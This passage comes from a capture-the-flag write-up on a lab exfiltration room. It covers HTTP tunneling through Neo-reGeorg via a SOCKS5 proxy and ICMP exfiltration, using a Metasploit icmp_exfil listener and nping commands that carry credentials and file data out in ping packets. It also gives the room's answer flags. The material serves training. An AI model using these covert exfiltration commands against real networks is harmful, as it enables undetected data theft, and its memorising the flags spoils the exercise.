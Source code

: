 + When we know the ip is `172.20.0.120` then call it using proxy on sock5 to get the flag on port `80`
```bash
root@ip-10-10-251-99:/opt/Neo-reGeorg# curl --socks5 127.0.0.1:1080 http://172.20.0.120:80/flag
<p>Your flag: THM{H77p_7unn3l1n9_l1k3_l337}</p>root@ip-10-10-251-99:/opt/Neo-reGeorg#
```

## Task 7  Exfiltration using ICMP
+ In which ICMP packet section can we include our data?`Data`
+ Follow the technique discussed in this task to establish a C2 ICMP connection between JumpBox and ICMP-Host. Then execute the "getFlag" command. What is the flag?`THM{g0t-1cmp-p4k3t!}`


+ Setup the MSFCONSOLE
```bash
msf6 > use auxiliary/server/icmp_exfil
msf6 auxiliary(server/icmp_exfil) > set BPF_FILTER icmp and not src 10.10.251.99
BPF_FILTER => icmp and not src 10.10.251.99
msf6 auxiliary(server/icmp_exfil) > set INTERFACE ens5
INTERFACE => ens5
msf6 auxiliary(server/icmp_exfil) > run

[*] ICMP Listener started on ens5 (10.10.116.172). Monitoring for trigger packet containing ^BOF
[*] Filename expected in initial packet, directly following trigger (e.g. ^BOFfilename.ext)
```
+ Send packet from `icmp.thm.com` using nping
```bash
thm@icmp-host:~$ sudo nping --icmp -c 1 10.10.116.172 --data-string "admin:password"

Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2024-02-09 11:10 EET
SENT (0.0340s) ICMP [192.168.0.121 > 10.10.116.172 Echo request (type=8/code=0) id=27751 seq=1] IP [ttl=64 id=43556 iplen=42 ]
RCVD (0.0346s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=27751 seq=1] IP [ttl=63 id=16692 iplen=42 ]
 
Max rtt: 0.517ms | Min rtt: 0.517ms | Avg rtt: 0.517ms
Raw packets sent: 1 (42B) | Rcvd: 1 (42B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds


thm@icmp-host:~$ sudo nping --icmp -c 1 10.10.116.172 --data-string "BOFfile.txt"

Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2024-02-09 11:12 EET
SENT (0.0336s) ICMP [192.168.0.121 > 10.10.116.172 Echo request (type=8/code=0) id=45152 seq=1] IP [ttl=64 id=9217 iplen=39 ]
RCVD (0.0342s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=45152 seq=1] IP [ttl=63 id=49177 iplen=39 ]
RCVD (0.0788s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=45152 seq=1] IP [ttl=31 id=7887 iplen=32 ]
 
Max rtt: 45.084ms | Min rtt: 0.426ms | Avg rtt: 22.755ms
Raw packets sent: 1 (39B) | Rcvd: 2 (71B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds

Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2024-02-09 11:13 EET
SENT (0.0263s) ICMP [192.168.0.121 > 10.10.116.172 Echo request (type=8/code=0) id=9344 seq=1] IP [ttl=64 id=33721 iplen=42 ]
RCVD (0.0270s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=9344 seq=1] IP [ttl=63 id=52114 iplen=42 ]
RCVD (0.0640s) ICMP [10.10.116.172 > 192.168.0.121 Echo reply (type=0/code=0) id=9344 seq=1] IP [ttl=31 id=9112 iplen=30 ]
 
Max rtt: 37.558ms | Min rtt: 0.553ms | Avg rtt: 19.055ms
Raw packets sent: 1 (42B) | Rcvd: 2 (72B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds
```